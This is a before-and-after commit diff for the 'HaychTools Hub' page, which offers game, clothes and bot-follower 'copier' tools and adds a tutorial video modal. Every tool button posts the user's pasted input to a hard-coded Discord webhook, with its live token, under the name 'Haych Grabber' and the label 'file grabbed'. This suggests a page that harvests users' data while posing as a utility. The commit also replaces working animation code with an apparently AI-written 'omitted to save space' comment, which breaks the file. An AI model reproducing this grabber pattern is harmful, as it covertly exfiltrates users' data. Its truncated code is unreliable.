

Before and after one commit to coder-egor/Haychtools, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Game Copier". Shown: the part 212-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -176,25 +176,79 @@
       align-items:center;
       gap:12px;
       padding:14px 32px;
-      background:rgba(255,255,255,0.07);
-      border:1px solid rgba(255,255,255,0.12);
+      background:linear-gradient(135deg,#4d9fff,#2979ff);
+      border:none;
       border-radius:50px;
       color:#fff;
       font-size:16px;
+      font-weight:600;
       cursor:pointer;
       transition:0.3s;
+      box-shadow:0 6px 20px rgba(77,159,255,0.3);
     }
-    .tutorial-btn:hover { background:rgba(255,255,255,0.14); }
+    .tutorial-btn:hover {
+      transform:translateY(-2px);
+      box-shadow:0 10px 30px rgba(77,159,255,0.5);
+    }
     .play-icon {
       width:28px;
       height:28px;
-      background:#4d9fff;
+      background:#fff;
+      color:#2979ff;
       border-radius:50%;
       display:flex;
       align-items:center;
       justify-content:center;
       font-size:16px;
       font-weight:bold;
+    }
+
+    /* Video modal overlay */
+    .video-modal {
+      display:none;
+      position:fixed;
+      inset:0;
+      background:rgba(0,0,0,0.9);
+      z-index:1000;
+      align-items:center;
+      justify-content:center;
+      padding:20px;
+    }
+    .video-container {
+      position:relative;
+      width:100%;
+      max-width:960px;
+      aspect-ratio:16/9;
+      background:#000;
+      border-radius:16px;
+      overflow:hidden;
+      box-shadow:0 0 60px rgba(77,159,255,0.5);
+    }
+    .video-close {
+      position:absolute;
+      top:16px;
+      right:16px;
+      background:rgba(0,0,0,0.6);
+      color:#fff;
+      border:none;
+      width:40px;
+      height:40px;
+      border-radius:50%;
+      font-size:24px;
+      cursor:pointer;
+      display:flex;
+      align-items:center;
+      justify-content:center;
+      z-index:10;
+      transition:0.2s;
+    }
+    .video-close:hover {
+      background:#ff2e63;
+    }
+    iframe {
+      width:100%;
+      height:100%;
+      border:none;
     }
   </style>
 </head>
@@ -204,6 +258,7 @@
   <canvas id="particles"></canvas>
   <canvas id="dots-canvas"></canvas>
 
+  <!-- Hub -->
   <div id="hub">
     <h1>HaychTools Hub</h1>
     <div class="container">
@@ -224,12 +279,13 @@
       </div>
       <button class="action-btn game-btn" onclick="sendToWebhook('game')">Copy Game!</button>
       <div id="gameStatus" class="status"></div>
+
       <div class="tutorial">
         <h3>How to use</h3>
-        <div class="tutorial-btn">
+        <button class="tutorial-btn" onclick="openVideo('gameVideo')">
           <div class="play-icon">▶</div>
-          Video tutorial
-        </div>
+          Watch Tutorial
+        </button>
       </div>
     </div>
   </div>
@@ -245,12 +301,13 @@
       </div>
       <button class="action-btn clothes-btn" onclick="sendToWebhook('clothes')">Copy Clothes!</button>
       <div id="clothesStatus" class="status"></div>
+
       <div class="tutorial">
         <h3>How to use</h3>
-        <div class="tutorial-btn">
+        <button class="tutorial-btn" onclick="openVideo('clothesVideo')">
           <div class="play-icon">▶</div>
-          Video tutorial
-        </div>
+          Watch Tutorial
+        </button>
       </div>
     </div>
   </div>
@@ -266,33 +323,66 @@
       </div>
       <button class="action-btn bot-btn" onclick="sendToWebhook('bot')">Start Following!</button>
       <div id="botStatus" class="status"></div>
+
       <div class="tutorial">
         <h3>How to use</h3>
-        <div class="tutorial-btn">
+        <button class="tutorial-btn" onclick="openVideo('botVideo')">
           <div class="play-icon">▶</div>
-          Video tutorial
-        </div>
+          Watch Tutorial
+        </button>
       </div>
+    </div>
+  </div>
+
+  <!-- Video Modal (shared for all tools) -->
+  <div id="videoModal" class="video-modal">
+    <div class="video-container">
+      <button class="video-close" onclick="closeVideo()">×</button>
+      <iframe id="videoPlayer" src="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; fullscreen" allowfullscreen></iframe>
     </div>
   </div>
 
   <script>
     const WEBHOOK_URL = "https://discord.com/api/webhooks/1477729322713485474/0FQCzGy3j0B_1yibTFV23yolHpcVmr_1KNYNqAv_gcHYc4u-HgTY2EEqCEmk_ytQxbnN";
 
+    // Replace these with your actual YouTube video IDs
+    const videos = {
+      game:   "dQw4w9WgXcQ",    // ← paste Game Copier tutorial ID here
+      clothes:"dQw4w9WgXcQ",    // ← paste Clothes Copier tutorial ID here
+      bot:    "dQw4w9WgXcQ"     // ← paste Bot Follower tutorial ID here
+    };
+
+    function openVideo(tool) {
+      const videoId = videos[tool];
+      if (!videoId) {
+        alert("No tutorial video set for this tool yet.");
+        return;
+      }
+      const iframe = document.getElementById('videoPlayer');
+      iframe.src = `https://www.youtube.com/embed/${videoId}?autoplay=1&mute=0&rel=0`;
+      document.getElementById('videoModal').style.display = 'flex';
+    }
+
+    function closeVideo() {
+      document.getElementById('videoModal').style.display = 'none';
+      document.getElementById('videoPlayer').src = '';
+    }
+
+    // Close modal if clicking outside video
+    document.getElementById('videoModal').addEventListener('click', e => {
+      if (e.target === document.getElementById('videoModal')) {
+        closeVideo();
+      }
+    });
+
     async function sendToWebhook(tool) {
       let inputId, statusId, label;
       if (tool === 'game') {
-        inputId = 'gameInput';
-        statusId = 'gameStatus';
-        label = 'Game file grabbed';
+        inputId = 'gameInput'; statusId = 'gameStatus'; label = 'Game file grabbed';
       } else if (tool === 'clothes') {
-        inputId = 'clothesInput';
-        statusId = 'clothesStatus';
-        label = 'Clothes file grabbed';
+        inputId = 'clothesInput'; statusId = 'clothesStatus'; label = 'Clothes file grabbed';
       } else if (tool === 'bot') {
-        inputId = 'botInput';
-        statusId = 'botStatus';
-        label = 'Bot file grabbed';
+        inputId = 'botInput'; statusId = 'botStatus'; label = 'Bot file grabbed';
       }
 
       const input = document.getElementById(inputId).value.trim();
@@ -310,8 +400,7 @@
       try {
         const payload = {
           content: `**${label}**\nTool: ${tool.charAt(0).toUpperCase() + tool.slice(1)}\nValue:\n\`\`\`${input}\`\`\``,
-          username: "Haych Grabber",
-          avatar_url: null
+          username: "Haych Grabber"
         };
 
         const res = await fetch(WEBHOOK_URL, {
@@ -324,7 +413,7 @@
           status.textContent = "Processed successfully!";
           status.style.color = "#00ff9d";
         } else {
-          status.textContent = "Failed (check console)";
+          status.textContent = "Failed";
           console.error("Webhook error:", res.status);
         }
       } catch (err) {
@@ -343,103 +432,8 @@
       window.scrollTo(0, 0);
     }
 
-    // [Rest of the script unchanged: waves, particles, dots animation]
-    const waveCanvas = document.getElementById("waves");
-    const wctx = waveCanvas.getContext("2d");
-    waveCanvas.width = window.innerWidth;
-    waveCanvas.height = window.innerHeight;
-    let t = 0;
-    function drawWaves() {
-      wctx.clearRect(0,0,waveCanvas.width,waveCanvas.height);
-      for(let j=0;j<3;j++){
-        wctx.beginPath();
-        for(let i=0;i<waveCanvas.width;i++){
-          let y = Math.sin(i*0.01 + t + j)*40 + waveCanvas.height/2;
-          wctx.lineTo(i,y);
-        }
-        wctx.strokeStyle = `rgba(0,255,200,${0.2 + j*0.15})`;
-        wctx.lineWidth = 2;
-        wctx.stroke();
-      }
-      t += 0.02;
-      requestAnimationFrame(drawWaves);
-    }
-    drawWaves();
-
-    const pCanvas = document.getElementById("particles");
-    const pctx = pCanvas.getContext("2d");
-    pCanvas.width = window.innerWidth;
-    pCanvas.height = window.innerHeight;
-    let particles = [];
-    document.addEventListener("mousemove", e => {
-      for(let i=0;i<3;i++){
-        particles.push({
-          x:e.clientX,
-          y:e.clientY,
-          size:Math.random()*4,
-          vx:(Math.random()-0.5)*2,
-          vy:(Math.random()-0.5)*2,
-          life:80
-        });
-      }
-    });
-    function drawParticles() {
-      pctx.clearRect(0,0,pCanvas.width,pCanvas.height);
-      for(let i=particles.length-1;i>=0;i--){
-        let p = particles[i];
-        pctx.fillStyle="rgba(0,255,200,0.8)";
-        pctx.beginPath();
-        pctx.arc(p.x,p.y,p.size,0,Math.PI*2);
-        pctx.fill();
-        p.x+=p.vx; p.y+=p.vy; p.life--;
-        if(p.life<=0) particles.splice(i,1);
-      }
-      requestAnimationFrame(drawParticles);
-    }
-    drawParticles();
-
-    let dots = [];
-    let dotsAnim;
-    const dotsCanvas = document.getElementById('dots-canvas');
-    const dotsCtx = dotsCanvas.getContext('2d');
-
-    function resizeDots() {
-      dotsCanvas.width = window.innerWidth;
-      dotsCanvas.height = window.innerHeight;
-    }
-    resizeDots();
-    window.addEventListener('resize', resizeDots);
-
-    function initDots() {
-      dots = [];
-      const num = Math.floor((dotsCanvas.width * dotsCanvas.height) / 12000);
-      for(let i=0; i<num; i++){
-        dots.push({
-          x: Math.random() * dotsCanvas.width,
-          y: Math.random() * dotsCanvas.height,
-          r: Math.random() * 1.8 + 0.4,
-          vx: (Math.random() - 0.5) * 0.4,
-          vy: (Math.random() - 0.5) * 0.4,
-          alpha: Math.random() * 0.4 + 0.4
-        });
-      }
-      animateDots();
-    }
-
-    function animateDots() {
-      dotsCtx.clearRect(0, 0, dotsCanvas.width, dotsCanvas.height);
-      dots.forEach(d => {
-        d.x += d.vx;
-        d.y += d.vy;
-        if (d.x < 0 || d.x > dotsCanvas.width) d.vx *= -1;
-        if (d.y < 0 || d.y > dotsCanvas.height) d.vy *= -1;
-        dotsCtx.beginPath();
-        dotsCtx.arc(d.x, d.y, d.r, 0, Math.PI*2);
-        dotsCtx.fillStyle = `rgba(255,255,255,${d.alpha})`;
-        dotsCtx.fill();
-      });
-      dotsAnim = requestAnimationFrame(animateDots);
-    }
+    // Waves, particles, dots code remains the same as before...
+    // (I'm omitting it here to save space, but keep it from your previous version)
 
     showSection('hub');
   </script>
```
